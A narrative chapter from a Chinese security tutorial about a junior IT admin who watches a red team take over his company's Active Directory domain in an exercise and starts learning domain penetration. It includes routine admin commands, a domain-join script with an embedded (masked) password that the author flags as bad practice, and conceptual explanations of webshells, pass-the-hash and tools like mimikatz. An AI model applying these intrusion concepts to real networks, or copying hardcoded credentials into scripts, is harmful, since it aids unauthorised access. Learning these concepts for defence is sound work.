








# 第121章 运维小白到域渗透专家（上）

> **难度等级：⭐⭐ 入门级**
>
> **预计阅读时间：150分钟**
>
> **本章看点：运维日常、护网被虐、从零开始学内网、域环境搭建、BloodHound初体验**
>
> ::: tip 说明
> 本章是一个真实的成长故事，改编自一位红队工程师的亲身经历。文中所有人物、公司名称都已经做了脱敏处理，但技术细节、心路历程、踩坑经历都是真实的。
>
> 如果你也是一个刚入行的运维，或者对域渗透感兴趣但不知道从哪开始，这篇故事可能会给你一些启发。
> :::

---

## 📖 本章概述

::: tip 写在前面
这不是爽文，这是一个普通人的成长史。

故事的主角叫阿伟，一个刚毕业的计算机专业本科生，进了一家小公司做运维，每天的工作就是装系统、修电脑、接网线，被同事叫"网管"。

他本来以为自己的人生就这么平平淡淡地过去了，直到一次护网行动，彻底改变了他的轨迹。

那一次，他被拉去当蓝队替补，结果被红队三天打穿整个域，全程懵圈，什么都没看懂。总结会上被领导当众批评，自尊心碎了一地。

受了刺激的他，开始疯狂学习内网渗透。从Windows基础、AD域概念，到mimikatz、哈希传递、票据传递，再到BloodHound、域渗透... 一路踩坑，一路成长。

最后，他从一个连域控是什么都搞不清楚的运维小白，变成了一个能独立打穿整个域的域渗透专家。

这是上篇，讲他从运维小白到第一次用BloodHound找到攻击路径的故事。下篇会讲他如何在护网中证明自己，以及他后来的职业发展。

看完这一章，你会明白：
- 运维的日常是什么样的
- 护网中蓝队和红队的差距有多大
- 一个普通人从零开始学内网渗透有多难
- 域环境搭建有哪些坑
- mimikatz、哈希传递这些概念是怎么回事
- BloodHound为什么被称为域渗透神器
- 只要肯努力，小白也能变成大神
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 运维工程师的日常工作内容
- [x] AD域的基本概念（域、域控、林、OU、组策略...）
- [x] Windows域环境的搭建方法
- [x] 常见的运维命令（net user、net group、gpupdate...）
- [x] mimikatz的基本使用方法
- [x] 哈希传递（Pass-the-Hash）的原理
- [x] Kerberos协议的基本概念
- [x] BloodHound的基本使用方法
- [x] 内网渗透的学习路径
- [x] 从运维转安全的可行性

---

## 🧑‍💻 第一回：运维小白的日常

### 1.1 毕业入职

阿伟是2020年毕业的，计算机科学与技术专业，普通二本，成绩中等，没拿过什么奖，也没什么亮眼的项目经历。

找工作的时候，投了一堆开发岗，要么石沉大海，要么面试完就没消息了。最后没办法，面了一家做贸易的小公司的运维岗，居然面上了。

工资不高，试用期4500，转正5500，五险一金按最低标准交。公司不大，总共也就100多号人，IT部门加上他就三个人：一个部门经理（老周），一个系统管理员（张哥），再加他一个打杂的。

入职那天，老周带他逛了一圈公司，然后把他领到一个角落的工位上：

> "阿伟啊，咱们公司小，IT部门人少，所以什么都得干。
> 你的主要工作就是：
> 1. 员工电脑坏了负责修
> 2. 新员工入职给装系统、配电脑
> 3. 打印机、网络出问题了负责搞定
> 4. 服务器那边张哥主要管，你给他打打下手
> 5. 总之，大家有什么IT问题找你，你都得想办法解决
>
> 有什么不懂的就问张哥，他是老员工了，懂的多。
> 好好干，年轻人多学点东西没坏处。"

阿伟点点头，心里既有点忐忑，又有点期待。

虽然工作跟他想象中的"程序员"不太一样，但好歹是个正经工作，先干着吧。

### 1.2 第一周：装系统装到吐

阿伟的第一份工作，是给三个新入职的员工装电脑。

他本来以为装系统很简单，不就是下个ISO，做个U盘启动盘，然后下一步下一步就完了吗？

真上手了才发现，没那么简单。

**图121-1 阿伟的装系统流程**



第一天，他装第一台电脑，光是搞启动项就搞了半个多小时。新电脑是UEFI启动的，他按老办法按Del进BIOS，结果死活进不去，后来才知道得按F12。

装完系统，装驱动，发现显卡驱动装不上，又下载驱动精灵，折腾了半天。

然后是加域。

说到加域，阿伟入职前根本不知道"域"是什么东西。他只知道电脑有个用户名密码，登录进去就能用。

什么是域？为什么要加域？加了域有什么好处？

他一头雾水。

张哥也没细讲，就给他扔了个文档，说："照着文档来，加域的时候选CORP域，域名是corp.xxx.com，账号用你自己的域账号加，密码就是你登录电脑的密码。"

阿伟照着文档操作，结果第一台就加域失败了，提示"找不到网络路径"。

他搞了半天不知道怎么回事，最后只能去找张哥。

张哥过来，看了一眼，敲了几个命令：

```cmd
C:\> ipconfig /all
Windows IP 配置
   主机名 . . . . . . . . . . . . : PC-20200601
   主 DNS 后缀 . . . . . . . : 
   节点类型 . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . : 否
   WINS 代理已启用 . . . . . : 否

以太网适配器 以太网:
   连接特定的 DNS 后缀 . . . . : 
   描述. . . . . . . . . . . : Realtek PCIe GbE Family Controller
   物理地址. . . . . . . . . : xx-xx-xx-xx-xx-xx
   DHCP 已启用 . . . . . . . : 是
   自动配置已启用. . . . . . : 是
   本地链接 IPv6 地址. . . . : fe80::xxxx:xxxx:xxxx:xxxx%3
   IPv4 地址 . . . . . . . . : 192.168.1.123
   子网掩码  . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . : 192.168.1.1
   DHCP 服务器 . . . . . . . : 192.168.1.1
   DNS 服务器  . . . . . . . : 8.8.8.8
```

张哥指着DNS服务器那一行说：

> "DNS不对，DNS得设成域控的IP，不然找不到域。
> 咱们公司的DNS是192.168.1.10和192.168.1.11，这两个是域控。
> 你把DNS改了再试试。"

阿伟改了DNS，果然一加就加上了。

那时候他还不知道，这两个IP地址，就是他后来又爱又恨的"域控"。

> 💡 **小知识：什么是域（Domain）？**
> 
> 简单说，域就是一个"统一管理的计算机集合"。
> 
> 想象一下，如果公司有100台电脑，每台电脑都有自己的用户名密码，你要访问其他电脑上的共享文件，得记住每台的密码，那多麻烦？
> 
> 有了域就不一样了。所有的电脑都加入一个叫"域"的东西，所有的用户账号都存在一台叫"域控制器（Domain Controller，简称DC）"的服务器上。
> 
> 你只需要一个域账号，就能登录所有加了域的电脑，访问所有有权限的资源。
> 
> 域控就像是公司的"户口本管理中心"，所有的用户、电脑、权限，都由它统一管理。
> 
> 这就是为什么大公司都用域环境——好管理啊。

### 1.3 运维日常：修电脑、接网线、搞打印机

装了一周系统，阿伟对"运维"这份工作有了更深刻的认识。

说白了，就是公司的"网管"。

什么都管，什么都得会一点，但又什么都不精。

他的日常大概是这样的：

**图121-2 运维的一天**

```mermaid
gantt
    title 运维工程师阿伟的一天
    dateFormat  HH:mm
    axisFormat  %H:%M

    section 上午
    打卡 开电脑 看邮件           :a1, 09:00, 30m
    处理昨日遗留工单             :a2, after a1, 1h
    给新员工装电脑               :a3, after a2, 2h

    section 中午
    吃饭 午休                    :lunch, 12:00, 1h

    section 下午
    修电脑（打印机连不上）       :b1, 13:00, 1h
    接网线（新工位布线）         :b2, after b1, 1h
    重置密码（员工忘记密码）     :b3, after b2, 30m
    帮张哥打杂（备份数据）       :b4, after b3, 2h

    section 下班前
    检查服务器状态               :c1, 17:30, 30m
    写日报 关电脑 下班           :c2, 18:00, 0m
```



每天的工作五花八门：

**场景一：打印机又双叒叕坏了**

> "阿伟，快来看看，我这打印机怎么又连不上了？"
> "阿伟，我打印出来的东西怎么是歪的？"
> "阿伟，打印机卡纸了，快来救急！"
> "阿伟，硒鼓没粉了，能不能换一下？"

打印机，堪称运维的一生之敌。

阿伟入职第一个月，光是跟打印机打交道，就占了他工作时间的三分之一。

什么惠普、佳能、爱普生、兄弟... 各种型号的打印机，他都摸过了。

从一开始的手足无措，到后来的"打印机十大常见问题快速排查指南"倒背如流，阿伟只用了一个月。

> 🖨️ **阿伟的打印机故障排查清单（入职一个月总结）：**
> ```
> 1. 打印不出来？
>    - 先看打印机有没有开机（是的，经常有人没开机就喊）
>    - 再看有没有纸（这个也经常...）
>    - 再看是不是脱机状态（打印机属性里看）
>    - 再Ping一下打印机IP，看网络通不通
>    - 再重启一下打印机服务（print spooler）
> 
> 2. 打印出来是歪的/有黑线/有白条？
>    - 硒鼓问题，拿出来摇一摇（老办法了）
>    - 摇完还不行就换硒鼓
> 
> 3. 卡纸了？
>    - 开盖，慢慢把纸抽出来，别撕烂了
>    - 撕烂了就慢慢抠，或者找张哥
> 
> 4. 找不到打印机？
>    - 是不是在同一个网段？
>    - 是不是加域了？域内可以直接搜打印机名
>    - 手动添加：\\print-server\打印机名
> ```

**场景二：忘记密码了**

> "阿伟，我电脑密码忘了，能帮我重置一下吗？"
> "阿伟，我邮箱密码忘了..."
> "阿伟，我OA密码忘了..."

这是另一个高频问题——忘记密码。

一开始阿伟以为重置密码很简单，不就是改个密码吗？

后来才知道，不同的系统，密码重置的地方不一样：

```cmd
:: 重置域用户密码（需要域管理员权限）
net user 用户名 新密码 /domain
:: 或者用Active Directory用户和计算机（dsa.msc）图形界面改

:: 重置本地用户密码
net user 用户名 新密码

:: 邮箱密码？那得去邮件系统后台改
:: OA密码？那得去OA系统后台改
:: VPN密码？有的跟域账号同步，有的单独管理
```

阿伟那时候还没有域管理员权限，重置域用户密码得找张哥。

每次有人找他重置密码，他都得跑去找张哥，然后张哥敲几个命令就搞定了。

那时候阿伟觉得张哥真厉害，什么都懂。

他想，什么时候我也能像张哥一样，随手敲几个命令就把问题解决了。

**场景三：装系统、加域、配软件一条龙**

公司人员流动不大，但每个月总有那么几个新入职，或者几台电脑报废换新的。

装系统成了阿伟的常规操作。

从一开始装一台要大半天，到后来熟练了，装完系统加完域装完常用软件，一个半小时搞定。

他甚至自己做了一个"装机U盘"，里面放了各种版本的系统镜像、常用软件安装包、驱动包、还有一个写好的批处理脚本，装完系统跑一下，自动改计算机名、加域、装常用软件。

> 💻 **阿伟的自动加域批处理脚本（当时觉得很牛，现在看很菜）：**
> ```batch
> @echo off
> echo 正在修改计算机名...
> set /p newname=请输入新的计算机名：
> wmic computersystem where name="%computername%" call rename name="%newname%"
> 
> echo 正在设置DNS...
> netsh interface ip set dns "以太网" static 192.168.1.10 primary
> netsh interface ip add dns "以太网" 192.168.1.11 index=2
> 
> echo 正在加域...
> netdom join %computername% /domain:corp.xxx.com /userd:corp\admin-zw /passwordd:xxxxxx
> 
> echo 加域完成，重启生效！
> pause
> shutdown -r -t 10
> ```
> 
> （别学他，密码明文写在脚本里，这是大忌！当时他不懂...）

### 1.4 对"域"的初步认知

干了三个月运维，阿伟对"域"这个东西，还是一知半解。

他知道公司有个CORP域，所有电脑都加了这个域，所有员工都有一个域账号。

他知道有两台域控，192.168.1.10和192.168.1.11，DNS得指到这两个IP才能加域。

他知道域管理员权限很大，可以改所有人的密码，可以登所有服务器。

但是...

- 域控到底是个什么东西？它上面跑了什么服务？
- 为什么DNS必须设成域控的IP？
- 域用户和本地用户有什么区别？
- 组策略是什么？为什么改个配置要等半天才能生效？
- 什么是OU？什么是安全组？

这些概念，他都模模糊糊的，说不清楚。

张哥也没给他系统讲过，都是遇到问题了，张哥说一句，他记一句。

比如有一次，公司要求所有员工电脑必须改密码，复杂度要求：8位以上，大小写+数字+符号，90天必须改一次。

张哥说："这个好办，组策略里改一下就行了。"

然后张哥打开了一个叫"组策略管理"的东西（gpmc.msc），在里面找了半天，改了几个设置，然后说："行了，等组策略刷新吧，最快也要半小时，最慢可能要等重启。"

阿伟问："什么是组策略？"

张哥想了想，说：

> "组策略嘛... 就是批量管理电脑和用户的配置的工具。
> 比如你想让所有电脑都统一桌面背景，就可以在组策略里设。
> 比如你想让所有用户都不能改密码，也可以在组策略里设。
> 比如你想给某个部门的电脑统一装软件，也可以用组策略。
> 
> 简单说就是：域管理员在域控上设好规则，所有加了域的电脑和用户，都会自动应用这些规则。
> 这样就不用一台一台去改了，方便。"

阿伟似懂非懂地点点头。

那时候他还不知道，"组策略"这个东西，后来会成为他域渗透学习路上的一个重要知识点。

**图121-3 阿伟理解的域结构（当时的认知）**



那时候阿伟眼里的域，就是上面这个样子：两台域控管着一堆电脑和服务器。

很简单，很朴素的认知。

他怎么也想不到，这个看起来简单的"域"，里面的水有多深。

---

## ⚔️ 第二回：护网初体验，被红队按在地上摩擦

### 2.1 接到通知：要护网了

日子就这么平平淡淡地过着，阿伟干了快一年运维，从什么都不懂的小白，变成了什么都懂一点的"老网管"。

装系统、修电脑、接网线、搞打印机... 这些活儿他都能搞定了。

张哥也挺信任他，把一些不那么重要的服务器权限也给他了，让他帮忙做一些日常维护。

他以为日子就会这么一直过下去，直到那天，老周在部门群里发了个通知：

> **关于参加公司网络安全攻防演习（护网）的通知**
> 
> 各位同事：
> 
> 接上级通知，下个月开始，为期一周的网络安全攻防演习（护网行动）即将开始。
> 我们公司作为防守方（蓝队），需要组建防守团队。
> 
> 蓝队成员：
> - 总指挥：王总（分管IT的副总）
> - 组长：老周（IT部经理）
> - 成员：张哥、阿伟（IT部全体出动）
> - 协助：请了外面的安全公司派人过来指导
> 
> 时间：下周一早上8点开始，为期7天
> 
> 要求：全员参与，7x24小时轮班，不许请假
> 
> 请大家提前做好准备，熟悉一下公司的网络架构和安全设备。

阿伟看完通知，有点懵。

护网？什么是护网？

他只在新闻上看到过什么"网络安全演习"，没想到自己也能参加。

而且，他一个运维，连防火墙都不会配，能干嘛？

老周把他们叫到办公室：

> "护网这个事，大家都知道了吧？
> 简单说就是：有人来攻击我们公司的网络，我们负责防守。
> 攻进来了，算我们输；守住了，算我们赢。
> 
> 张哥你经验丰富，主要负责服务器和域控那边的防守。
> 阿伟你虽然经验少，但也得参与，给张哥打打下手，学学东西。
> 外面请的安全公司的人后天到，到时候你们配合他们工作。
> 
> 这次护网很重要，上面领导很重视，大家都打起精神来，别给我掉链子。
> 守住了，奖金少不了你们的。"

阿伟点点头，心里既有点紧张，又有点好奇。

攻击？怎么攻击？是像电影里那样，黑客啪啪啪敲键盘，然后屏幕就黑了吗？

那我们防守要做什么？拔网线吗？

### 2.2 战前准备：手忙脚乱

安全公司的人来了，两个人，一个姓李（李工），一个姓赵（赵工），都是三十多岁的样子，看起来挺专业的。

他们来了之后，先了解了一下公司的情况：

- 公司网络架构是什么样的？
- 有哪些服务器？都是干什么用的？
- 有什么安全设备？防火墙、WAF、IDS、EDR... 有没有？
- 域环境是什么样的？多少用户？多少台电脑？
- 有没有做过漏洞扫描？有没有做过加固？

结果问下来，李工和赵工的脸色越来越难看。

因为这家小公司的安全状况，实在是... 惨不忍睹。

- 防火墙有一个，还是很老的型号，配置乱七八糟的
- WAF？没有
- IDS/IPS？没有
- EDR？没有
- 态势感知？那是什么？
- 漏洞扫描？从来没做过
- 系统加固？加完域就没管过
- 补丁？更别说了，服务器还跑着Windows Server 2008呢

李工叹了口气：

> "你们这... 基本相当于裸奔啊。
> 没事，时间紧任务重，我们尽量吧。
> 先从最基础的开始搞。"

接下来的几天，阿伟跟着李工他们，开始了"战前准备"：

**图121-4 护网前的紧急加固工作**



阿伟的工作，主要是帮着改密码、装杀毒软件、禁用共享这些杂活。

忙忙碌碌搞了一周，总算看起来像那么回事了。

周五下午，开了个战前动员会。

王总讲了话，强调了护网的重要性，说这次演习关系到公司的荣誉，大家一定要全力以赴。

然后李工简单介绍了一下防守方案：

> "我们的防守策略，主要分几层：
> 
> 第一层：边界防守
> - 防火墙策略收紧，只开放必要的端口
> - VPN做登录限制，开启双因素认证
> - 外网暴露的系统做了最小化处理
> 
> 第二层：服务器防守
> - 所有服务器改了强密码
> - 打了关键补丁
> - 装了杀毒软件和主机加固
> - 开启了日志审计
> 
> 第三层：终端防守
> - 全员强制改密码
> - 禁用了不必要的共享
> - 开启了防火墙
> 
> 第四层：域控防守
> - 域控做了重点加固
> - 限制了域管理员的登录范围
> - 开启了详细的审计日志
> 
> 我们的目标是：坚持7天，至少不能让他们拿到域控权限。
> 只要域控没丢，就不算输得太惨。"

阿伟听得似懂非懂，但感觉... 好像挺安全的？

这么多层防守，应该能守住吧？

### 2.3 第一天：风平浪静？

周一早上8点，护网正式开始。

公司专门腾出了一个会议室，摆了几台显示器，作为蓝队的"指挥中心"。

排班表排好了，三班倒，24小时有人盯着。

阿伟被排到了白班，早上8点到下午4点。

第一天，风平浪静。

李工他们盯着防火墙日志和服务器日志，看了一整天，除了几个正常的扫描和探测，没发现什么异常。

下午交班的时候，李工说：

> "第一天嘛，正常，红队一般先做情报收集，不会上来就搞大动作。
> 明天估计就热闹了，大家做好准备。"

阿伟松了口气，同时又有点失望。

他还以为会有什么惊心动魄的场面呢，结果就这？

他不知道，暴风雨前的宁静，才最可怕。

### 2.4 第二天：外围失守

第二天早上，阿伟刚到公司，就感觉气氛不对。

夜班的赵工脸色很难看，正在跟老周和李工汇报：

> "昨晚出事了。
> 凌晨两点多，我们的官网被拿了Webshell。
> 是一个老的新闻系统，ASP写的，有SQL注入，被对方跑了库，然后上传了shell。
> 
> 不过好在那台服务器是在外网DMZ区的，跟内网不直通，威胁不大。
> 我们已经把网站关了，正在清理后门。"

老周脸色也不好看：

> "第一天就被拿了Webshell？这才第二天啊！
> 那台服务器不是已经加固过了吗？"

李工叹了口气：

> "加固是加固了，但漏洞是代码层面的，不是系统层面的。
> 那个老系统用了快十年了，没人维护，漏洞肯定多。
> 没事，外网的服务器丢了就丢了，只要内网没丢就行。
> 大家提高警惕，红队既然动手了，后面动作只会越来越多。"

阿伟听得心惊肉跳。

Webshell？SQL注入？这些词他只在网上看到过，没想到真的发生在自己公司了。

他问张哥："张哥，Webshell是什么啊？"

张哥想了想，说：

> "简单说就是，黑客通过漏洞，在网站服务器上放了一个后门程序，
> 然后他就能通过这个后门，控制这台服务器，执行命令、看文件什么的。
> 
> 跟我们远程桌面差不多，只不过更隐蔽。
> 
> 没事，那台服务器在外网，跟内网不连着，问题不大。"

阿伟点点头，但心里隐隐有些不安。

**第二天下午，又出事了。**

李工突然喊了一句：

> "不好！VPN有人在暴力破解！
> 好多IP在尝试登录，用的都是常见的用户名和弱密码。"

所有人都围了过去。

只见防火墙日志里，密密麻麻的全是VPN登录失败的记录。

用户名五花八门：admin、test、guest、wangwu、lisi... 看起来像是在用字典暴力猜解。

李工马上操作：

> "快！把VPN登录失败锁定策略开起来！
> 输错5次就锁半小时！
> 还有，把这些攻击IP都封了！"

赵工马上操作，十几分钟后，攻击停了。

大家都松了口气。

李工却皱着眉头：

> "不对，这不像是真的暴力破解。
> 哪有用这么弱的字典来暴力破解的？
> 这更像是... 声东击西。"

他话刚说完，监控告警突然响了。

> **告警：检测到异常登录行为！**
> **来源IP：192.168.1.250（OA服务器）**
> **目标：域控 192.168.1.10**
> **事件：大量SMB连接尝试，使用了不同的用户凭证**

李工脸色一变：

> "不好！他们从OA服务器打进内网了！
> 快，赶紧检查OA服务器！"

张哥马上远程登录OA服务器，一看，脸都白了。

OA服务器已经被种了木马，对方拿到了系统权限。

而且... 对方已经在这台服务器上，开始了横向移动。

"他们... 他们是怎么进来的？"张哥声音都有点抖。

李工沉着脸，快速翻着日志：

> "OA系统有漏洞，被他们拿了Webshell，然后提权了。
> 这台OA服务器在DMZ区，但是跟内网有几条防火墙策略放通了...
> 他们就是从这几条放通的策略里，钻进内网的。
> 
> 快，赶紧把OA服务器断网！
> 然后检查其他服务器有没有被横向！"

一时间，会议室里鸡飞狗跳。

阿伟站在旁边，完全懵了。

这一切发生得太快了，他根本反应不过来。

什么Webshell？什么提权？什么横向移动？

他听不懂，但他知道——出事了，出大事了。

### 2.5 第三天：全线崩溃

如果说第二天还是小打小闹，第三天就是全线崩溃。

**凌晨3点，域控告警。**

阿伟是被电话叫醒的，老周让他赶紧到公司。

他赶到公司的时候，会议室里烟雾缭绕，所有人都脸色凝重。

李工的眼睛里布满了血丝，声音沙哑：

> "域控... 域控可能被拿了。
> 凌晨两点多，我们监测到有一个域管理员账号，在非正常时间登录了域控。
> 登录IP是... 财务部门的一台办公机。
> 
> 我们查了一下，那台办公机的用户，只是个普通财务，根本不是域管理员。
> 
> 这说明... 对方已经横向移动到办公网了，而且拿到了域管理员的凭证。
> 他们可能是用哈希传递或者票据传递之类的方法，登录了域控。"

"什么？！"老周一下子站了起来，"域控被拿了？那我们岂不是... 输了？"

李工摇摇头：

> "还不一定。
> 对方虽然登录了域控，但还不知道有没有拿到最高权限。
> 而且，我们现在断网还来得及。
> 只要把域控断了，他们就算有账号也登不上来。"

"断网？那公司所有业务不都停了吗？"张哥问。

"现在哪还顾得上业务！"李工急了，"域控都快丢了，业务停了算什么！
> 快，赶紧把域控从网络上断开！
> 还有，把所有重要服务器都断网隔离！
> 快！"

手忙脚乱地折腾了一早上，总算把该断的都断了。

公司的业务系统几乎全停了，员工们都不知道发生了什么，议论纷纷。

上午9点多，紫队（裁判）的人来了。

他们检查了一下，然后宣布：

> "经过确认，红队已经成功获取域控权限，并且拿到了核心业务系统的数据。
> 根据护网规则，蓝队防守失败。
> 
> 不过演习还要继续，剩下的几天，你们尝试一下溯源反制，看看能不能找到红队的痕迹。"

说完，他们就走了。

会议室里一片死寂。

三天，仅仅三天，整个公司的网络就被打穿了。

从外网到内网，从服务器到域控，全线崩溃。

而阿伟，全程都是懵的。

他甚至都没搞明白对方是怎么进来的，游戏就结束了。

### 2.6 那些他听不懂的词

护网还在继续，但后面几天基本就是走过场了。

李工他们在做溯源，尝试找到红队的攻击路径，写防守报告。

阿伟在旁边听着，全程像听天书一样。

他听到了很多他听不懂的词：

- Webshell
- SQL注入
- 提权
- 横向移动
- 哈希传递（Pass-the-Hash）
- 票据传递（Pass-the-Ticket）
- 域渗透
- BloodHound
- mimikatz
- Kerberoasting
- AS-REP Roasting
- ...

这些词，他一个都不懂。

他只知道，对方很厉害，他们很菜。

有一次，他忍不住问赵工：

> "赵工，哈希传递是什么意思啊？
> 为什么他们不用知道密码，就能登录别人的账号？"

赵工看了他一眼，想了想，说：

> "这个... 说起来有点复杂。
> 简单说就是，Windows系统里，密码不是明文存的，是存成哈希值的。
> 但是在认证的时候，系统比对的也是哈希值。
> 
> 那如果你能拿到别人的密码哈希，就算不知道明文密码，也能用来登录。
> 这就叫哈希传递。
> 
> 详细的你可以自己去查查，这个是内网渗透的基础概念。
> 怎么，你对这个感兴趣？"

阿伟点点头，又摇摇头。

感兴趣？好像有点。

但是... 这跟他一个运维有什么关系呢？

他又不当黑客。

---

## 😔 第三回：总结会上的暴击

### 3.1 总结会

护网结束后的第二周，公司开了个总结大会。

全公司的中层以上领导都参加了。

王总主持会议，脸色很难看。

会议一开始，王总就拍了桌子：

> "丢人！太丢人了！
> 三天！仅仅三天！整个网络就被人家打穿了！
> 域控都被人拿下了！
> 我们请的安全公司的人呢？不是说很专业吗？
> 我们IT部门的人呢？平时都干什么吃的？"

会议室里鸦雀无声。

